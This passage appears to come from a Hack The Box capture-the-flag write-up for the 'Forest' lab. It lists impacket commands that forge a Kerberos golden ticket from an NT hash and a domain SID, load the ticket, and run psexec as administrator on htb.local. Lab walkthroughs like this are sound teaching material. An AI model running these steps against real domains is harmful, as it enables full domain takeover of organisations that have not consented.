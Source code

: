 Now using this info with impacket ticketer to get the golden ticket:
`ticketer.py -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain htb.local DoesNotExist`
Putting the ticket in our environment variable:
`export KRB5CCNAME=DoesNotExist.ccache`
 **Note:** before psexec check if dns and time is configured properly
`psexec.py -debug htb.local/administrator@forest -k -no-pass`

